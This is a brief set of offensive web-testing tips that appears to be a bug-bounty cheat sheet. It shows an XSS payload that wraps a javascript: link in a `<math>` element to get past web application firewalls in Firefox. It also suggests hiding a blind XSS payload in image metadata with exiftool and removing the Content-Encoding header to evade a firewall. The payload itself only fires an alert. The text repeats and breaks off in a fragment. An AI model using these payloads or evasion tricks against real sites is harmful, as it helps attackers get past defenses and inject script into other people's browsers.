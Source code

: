 <mark style="background: #FF5582A6;">Tip 1:</mark>
Don't forget about the `<math>` element for XSS WAF bypass on Firefox browser. <math> <xss href="javascript:alert(31337)"> Click Me </xss> </math> The `<math>` can make any HTML element clickable within it.
```
<math> <xss href="javascript:alert(31337)"> Click Me </xss> </math>
```

The `<math>` can make any HTML element clickable within it.

<mark style="background: #FF5582A6;">Tip 2:</mark>
Add blind xss payload in image comment using exiftool

-> remove Content-Encoding:  firewall -> header to bypass WAF